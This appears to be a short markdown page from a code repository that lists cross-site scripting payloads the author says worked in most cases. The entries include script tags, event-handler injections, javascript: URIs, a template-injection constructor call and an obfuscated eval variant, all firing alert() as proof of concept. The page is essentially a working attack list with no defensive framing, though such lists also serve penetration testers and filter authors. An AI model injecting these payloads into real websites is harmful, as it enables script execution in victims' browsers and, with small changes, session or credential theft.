 # Most common working payloads
## This is list of XSS Payloads that worked in most cases for me

```html
"><svg/onload=alert(1)>
"><script>alert(1)</script>
<div onmouseover="alert(document.domain);">
<IMG SRC="javascript:alert('XSS');">
</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
"><img src=x onerror=alert(1)>
{{constructor.constructor(`alert(1)`)()}}
<noscript><&amp;amp;amp;amp;lt; title=" &lt;/noscript&gt; &lt;img src= x onerror =alert(document.domain)//&quot;&gt;
"><div onmouseover="alert(1);">
<BODY onload=alert(1)>
<BASE HREF="javascript:alert('XSS');//">
"></iframe><script>alert(123)</script>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg onLoad=alert(document.domain)>
/;alert(1)//
```

## by Kira Reys
